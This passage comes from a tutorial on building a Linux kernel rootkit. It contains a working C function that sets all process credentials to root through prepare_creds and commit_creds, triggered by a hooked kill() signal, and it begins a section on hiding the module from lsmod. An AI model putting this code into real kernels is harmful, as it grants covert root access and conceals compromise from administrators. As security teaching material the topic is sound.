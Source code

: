 ```c
    kuid_t      euid;   /* effective UID of the task */
    kgid_t      egid;   /* effective GID of the task */
    kuid_t      fsuid;  /* UID for VFS ops */
    kgid_t      fdgid;  /* GID for VFS ops */

    /* redacted */
}
```
Since we only care about root privileges, we can simply set all these to 0.
According to the kernel [documentation](https://github.com/torvalds/linux/blob/master/Documentation/security/credentials.rst#altering-credentials), we need to call `prepare_creds` to get the current version of credentials. Then we can modify it and install the changes by calling `commit_creds`:
```c
void set_root(void)
{
    struct cred *root;
    root = prepare_creds();
    if (root == NULL)
        return;
    root->uid.val = root->gid.val = 0;
    root->euid.val = root->egid.val = 0;
    root->suid.val = root->sgid.val = 0;
    root->fsuid.val = root->fsgid.val = 0;

    commit_creds(root);
}
```

## Notes About Changing Credentials of A Process.
-   A process CANNOT change other processes’ credentials. This imposes a **security barrier** to prevent malicious processes affecting other processes. 
-  However,  a process can still modify its own credentials.
-  When a process is altering its credentials, it uses a **mutex** to prevent race conditions raised by ptrace() (another system call that may alter credentials as a side-effect).

## Demonstration!

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe5sC1V41chMrLpCt3jkeOpObLwIDpZGzV6_VQKImYid0vKNPVauutB3Edb29BvPg0cZ9OIEgh4koZYvRBuCvbxYZh8bRnm1uWvadA8yCNAuLjQdVINDst2LMU6O9UpmKvUYsaJRNnL9zQXgN6R?key=8gWUuztVdypWUJCrXgpmWzsr)

# Hiding Kernel Modules
In this part, we will be looking at **hiding kernel modules from userspace**! In particular, we will add this functionality to the current `hook_kill()` callback. Recall that we used `64` as a signal number to change the process credentials, in this case we would use `63` for hiding the rootkit!

## Overview
### lsmod
- a command to list out the status of **loaded** modules in the kernel
### Kernel Module Struct
Each kernel module has a `struct` attached to it, storing information about itself. The `struct` were made available to the kernel module in [include/linux/export.h](https://github.com/torvalds/linux/blob/729e3d091984487f7aa1ebfabfe594e5b317ed0f/include/linux/export.h#L16):
```c
#ifdef MODULE
extern struct module __this_module;
#define THIS_MODULE (&__this_module)
#else
#define THIS_MODULE ((struct module *)0)
#endif
```